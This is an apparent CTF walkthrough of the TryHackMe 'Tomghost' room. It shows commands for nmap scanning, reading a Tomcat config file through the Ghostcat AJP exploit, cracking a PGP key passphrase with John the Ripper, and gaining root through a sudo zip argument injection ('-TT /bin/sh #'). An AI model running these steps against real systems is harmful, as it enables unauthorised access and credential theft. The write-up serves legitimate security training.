 # Try Hack Me - Tomghost

Identify recent vulnerabilities to try exploit the system or read files that you should not have access to. This is a TryHackMe box. To access this you must sign up to https://tryhackme.com/.

## Disclaimer -  Your IP address will be different!
---

## Scanning and Enumeration

We will start with running our nmap scan.  
Command: `nmap -A -T4 -sC -sV -oN nmap/initial.txt 10.10.93.77`

Command Breakdown:

    -A: do an extensive scan on these ports

	-T4: speed of nmap scan is 4/5 (personal preference of mine)

    -sC: Scan with default NSE scripts. Considered useful for discovery and safe

	-sV: Attempts to determine the version of the service running on port

	-oN: Normal output to the file normal.file

Once the results came back there was only one thing that appeared out of place to me and that was port 8009.  

By default, Apache Tomcat listens on 3 ports, 8005, 8009 and 8080. A common misconfiguration is blocking port 8080 but leaving ports 8005 or 8009 open for public access.  

![nmapResulst](images/nmapresults.png "NMAP")

We will bu using the following tool to exploit this vulnerability.  
[00theway/Ghostcat-CNVD-2020-10487](https://github.com/00theway/Ghostcat-CNVD-2020-10487)  

Command: `python3 ajpShooter.py http://10.10.93.77:8080 8009 /WEB-INF/web.xml read`

![nmapRajpShooteresulst](images/ajpShooter.png "ajpShooter") 

It would seems that we where able to find what seems to be both a user name and a password.  

Let's look back at our nmap scan. Remeber that port 22 was open. We might be able to use these credentials to log into our box.  

Command: `ssh <username>@10.10.93.77`  
Enter in the password when you are prompted to and BLAM! we are connected under that user account.  

![sfUser](images/sfUser.png "sfUser")  
When we use the `ls` command we see that there are two files. Both of these files could be encryptions keys, but for right now we are going to look into the `/home` directory to see if we can find anything useful.  

![merlin](images/merlin.png "merlin")  
Let's keep digging and see if we an find anything else. If we `ls /home/merlin` you will see that it is here we find our first flag `user.txt`.  

![userFlag](images/userFlag.png "userFlag")  

Now we are going to return to pgp and asc file that we found in the `skyfuck` directory.  
We are going to all of these files to our host machine. In order to do this we will need to use the `scp` command.  

When using the `scp` command you will want to run it on your host maching and not from the Tomghost VM.   
Command: `scp skyfuck@10.10.31.90:/home/skyfuck/* .`
## Cracking the Hash
---
After running the `scp` command we now have both the credential.pgp and tryhackme.asc on our host maching.  
The next thing we want to do is use John The Ripper to get the hash from the `tryhackme.asc`.  
Here is a good [video](https://www.youtube.com/watch?v=DBpd9e4tJfg) for recovering your PGP key with John.  
Command: `gpg2john tryhackme.asc > hash`  
Once complete you can see that we now have our password. Lets make sure that we take note of that.  
 
It is now time for to crack open the hash that we collected eariler. This can be down by using John and combining it with the rockyou.txt wordlist.  

FYI in order to find the location of your rockyou.txt word list just use `locate rockyou.txt`. Mind is located in the `/usr/share/wordlists/` directory.  

Command: `john --wordlist=/usr/share/wordlists/rockyou.txt hash`
![passwd](images/passwd.png "passwd") 

It seems that John was able to find out passphrase. Now we are going to use that phrase to import adn decrypt our PGP key that we have.
```
gpg --import tryhackme.asc
gpg --decrypt credential.pgp
```

![merlinPasswd](images/merlinPasswd.png "merlinPasswd")  
Things are starting to work in our favor.
We now have the password to the Merlin account.  
So we need to go back to our SSH shell and change from the skyfuck user to merlin, that can be done by using the `SU` command.  

Command: `su merlin`  
Once you are logged in as Merlin lets see if we have the abiliy to run anything as sudo.  
`sudo -l`  
It seems that the only thing we can use sudo on is `/usr/bin/zip`  
Afer a little bit of reasearch I found this [GitBook](https://d00mfist1.gitbooks.io/ctf/privilege_escalation_-_linux.html) on privilege escalation. Under the zip portion there was this oneliner that would allow us to gain access to a root shell.
`sudo zip -q /tmp/test.zip cc0.txt -T -TT '/bin/sh #'`

![shell](images/shell.png "shell")  
Once we have the shell we can us the `id` command to see that we are now running as a root user.  

Now it is time to find the root.txt file.
```
ls /root
cat /root/root.txt
```
![rootFlag](images/rootFlag.png "rootFlag") 

# Congratulations you have just completed the Tomghost challange!